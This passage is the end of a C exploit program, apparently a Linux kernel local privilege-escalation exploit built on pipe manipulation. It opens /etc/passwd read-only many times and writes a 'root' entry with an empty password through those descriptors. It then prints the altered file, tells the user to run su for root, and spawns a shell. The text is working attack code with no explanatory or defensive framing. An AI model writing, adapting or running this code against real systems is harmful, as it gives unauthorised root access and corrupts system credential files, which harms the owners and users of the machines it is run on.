    close(pipe_fd[victim][0]);
    close(pipe_fd[victim][1]);
    int passwd_fd[0x200];
    for(int i = 0; i < 0x100; i++){
        passwd_fd[i] = open("/etc/passwd", O_RDONLY);
        if(passwd_fd[i] < 0){
            perror("open file.");
        }
    }
    
    size_t tmp = 0x480e801f;
    write(pipe_fd[k][1], &tmp, 4);
    char shellcode1[0x20] = "root::0:0::/root:/bin/sh\n\n\x00";

    for(int i = 0; i < 0x100; i++){
        int retval = write(passwd_fd[i], shellcode1, sizeof(shellcode1));
        if(retval > 0){
            puts("write file success.");
            break;
        }
    }

    for(int i = 0; i < 0x100; i++){
        close(passwd_fd[i]);
    }

    puts("[+] EXP END.");
    
    char result[0x100];
    int passwd = open("/etc/passwd", O_RDONLY);
    read(passwd, result, 0x100);
    printf("Overwritten /etc/passwd:\n");
    printf("%s",result);
    puts("[Fini] Good Bye~");
    return;
}


int main(){
    Exploit();
    puts("\033[32m\033[1m[+] EXPLOIT DONE!\n[+] RUN $su TO GET PRIVILIGE!\033[0m");
    system("/bin/sh");
    return 0;
}
```




